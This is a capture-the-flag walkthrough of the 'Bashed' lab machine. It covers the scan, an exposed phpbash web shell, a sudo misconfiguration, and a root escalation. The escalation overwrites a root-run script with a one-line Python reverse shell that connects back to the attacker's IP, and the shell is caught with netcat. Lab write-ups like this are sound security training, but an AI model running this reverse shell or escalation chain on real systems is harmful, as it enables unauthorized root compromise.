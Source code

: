 # Bashed 

Machine Level: Easy <br />
OS: Linux 

## Scanning 
I ran an nmap scan using the aggressive flag to identify some services. 
```
ajread@aj-ubuntu:~$ nmap -A [REDACTED]
Starting Nmap 7.80 ( https://nmap.org ) at 2023-01-16 21:14 CST
Nmap scan report for [REDACTED]
Host is up (0.19s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.51 seconds
```
## Enumeration 
I conducted some enumeration using gobuster and found that there was an interesing subdirectory on port 80 as ```/dev/phpbash.php```. At the directory, there is a command line for me to use. 
```
www-data@bashed:/var/www/html/dev#
```
The commandline has me as user ```www-data```. 
```
www-data@bashed:/var/www/html/dev# whoami
www-data
www-data@bashed:/var/www/html/dev# id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
## Initial Access
With the command line in the ```phpbash.php```, I was able to navigate to the user home directory and read the user flag.
```
www-data@bashed:/var/www/html/dev# cd /home
www-data@bashed:/home# ls
arrexel
scriptmanager
www-data@bashed:/home# cd arrexel
www-data@bashed:/home/arrexel# ls
user.txt
www-data@bashed:/home/arrexel# wc -c user.txt
33 user.txt
```
## Privilege Escalation 
Going through some normal privilege escalation checks, I wanted to see if I was able to run anything as ```sudo```. It turned out that I was able to run a ```scriptmanager``` with such privileges. 
```
www-data@bashed:/home/arrexel# sudo -l
Matching Defaults entries for www-data on bashed:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
(scriptmanager : scriptmanager) NOPASSWD: ALL
```
I found a ```/scripts``` folder that I was able to read the contents of using ```scriptmanager``` permissions. 
```
www-data@bashed:/# sudo -u scriptmanager ls -la /scripts
total 16
drwxrwxr-- 2 scriptmanager scriptmanager 4096 Jun 2 2022 .
drwxr-xr-x 23 root root 4096 Jun 2 2022 ..
-rw-r--r-- 1 scriptmanager scriptmanager 58 Dec 4 2017 test.py
-rw-r--r-- 1 root root 12 Jan 17 15:44 test.txt
```
It looked like ```test.py``` writes to ```test.txt```. 
```
www-data@bashed:/# sudo -u scriptmanager cat /scripts/test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
```
Now, I rewrote the ```test.py``` file since it was able to be edited by ```scriptmanager``` but only run by ```root``` because it required the ability to write to a ```test.txt``` file that is owned by ```root```. I changed the file to be a reverse shell in python with a connection back to my local IP and port using ```echo``` and ```tee```. 
```
echo 'socket=__import__("socket");os=__import__("os");pty=__import__("pty");s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[LOCAL IP]",9999));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")' | sudo -u scriptmanager tee /scripts/test.py
```
I had some issues setting up the python reverse shell. I had to create one that was a one liner without spaces, found [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python).

I opened a listener on my local machine and waited for the connection to come through. And it did! 
```
ajread@aj-ubuntu:~$ nc -lnvp 9999
Listening on 0.0.0.0 9999
Connection received on [REDACTED] 33616
# id 
id 
uid=0(root) gid=0(root) groups=0(root)
# whoami
whoami
root
```
I was able to read the root flag as well. 
```
wc -c /root/root.txt
33 /root/root.txt
```